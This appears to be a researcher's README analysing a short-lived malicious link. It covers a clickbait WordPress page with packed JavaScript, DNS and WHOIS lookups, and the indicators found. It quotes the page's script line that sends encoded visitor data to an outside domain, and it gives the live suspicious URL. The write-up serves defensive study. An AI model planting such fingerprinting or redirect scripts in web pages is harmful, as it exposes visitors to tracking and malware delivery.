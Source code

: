 # Self-Destructing-JS-Redirect-Trap-Analysis-April-2025-
# 🔍 Self-Destructing JS Redirect Trap Analysis (April 2025)

## 🎯 Overview
This document details the analysis of a suspicious link that appeared briefly online (~15 minutes) and was manually deleted by the individual who posted it. The link led to a webpage hosted under a seemingly benign domain, but its behavior revealed obfuscated JavaScript, external data exfiltration, and redirection behavior consistent with black hat campaigns.

---

## 🕵️‍♂️ Investigated URL
```
http://cokokikikco.alexanderpollard.com/XbPuBCUFRFeMxjfd
```

## 📌 DNS & Host Info
- **Subdomain:** `cokokikikco`
- **Domain:** `alexanderpollard.com`
- **Resolved IPs:**
  - `172.67.188.98` (Cloudflare)
  - `104.21.40.213` (Cloudflare)

> The server is hidden behind Cloudflare, common for either protection or obfuscation.

---

## 📃 HTML Snapshot
- `<title>HOT Video 1,356,198 views</title>` — clickbait headline
- Meta tags in Vietnamese, implying traffic targeting Southeast Asia
- `og:image` points to a Googleusercontent-hosted image
- Generated by **WordPress 5.8.4** using **Site Kit by Google** plugin

---

## 🔬 JavaScript Behavior
### 🔸 Ofuscated Script
```js
eval(function(p,a,c,k,e,r){...})
```
- Uses Dean Edwards-style packing
- Calls to `XMLHttpRequest`, `navigator`, `window.location`

### 🔸 Remote GET Request
```js
xhr.open("GET", window.location.protocol + "//thongke.uk?s=Y29rb2tpca2lrY29BYWxleGFuZGVyC9sbGFyZC5jb21BMT...");
```
- Sends encoded data to `thongke.uk`
- Behavior suggests **fingerprinting** or **redirection campaign tracking**

---

## 🌐 Secondary Domain Info: `thongke.uk`
- **WHOIS:** Registered Aug 2023, privacy protected
- **Resolved IPs:**
  - `172.67.167.71`
  - `104.21.11.215`
- **Also protected by Cloudflare**

---

## 🧪 Tools Used for Analysis
- `curl -I` for HTTP headers
- `dig`, `whois`, `nslookup` for DNS enumeration
- Manual `curl` of HTML page + `cat`/`grep` inspection
- JavaScript beautification tools
- Optional proxy interception using Burp Suite (recommended)

---

## 💣 Key Indicators of Suspicion
- Ofuscated script with runtime execution (`eval`)
- Encoded fingerprinting redirect to external domain
- Rapid deletion of the link post (indicating manual control by attacker)
- Short TTL of post: ~15 minutes live before removal

---

## 🧾 Conclusion
This case appears to be a **temporary malicious redirect campaign**, potentially under A/B testing by the attacker. The use of clickbait elements, rapid self-removal, and ofuscated tracking scripts aligns with modern techniques for:
- Black hat affiliate redirection
- Fingerprint harvesting
- Early-stage malware delivery testing

The subdomain being under a legit-looking domain (possibly compromised WordPress site) adds to the danger, as users may trust the link at a glance.

---

## 👤 Analyst
**Sebastian** (Grey Hat Researcher, April 2025)

GitHub Repo: _Coming Soon_

---

> 🔒 For educational and ethical research purposes only. Do not replicate without a safe lab environment.

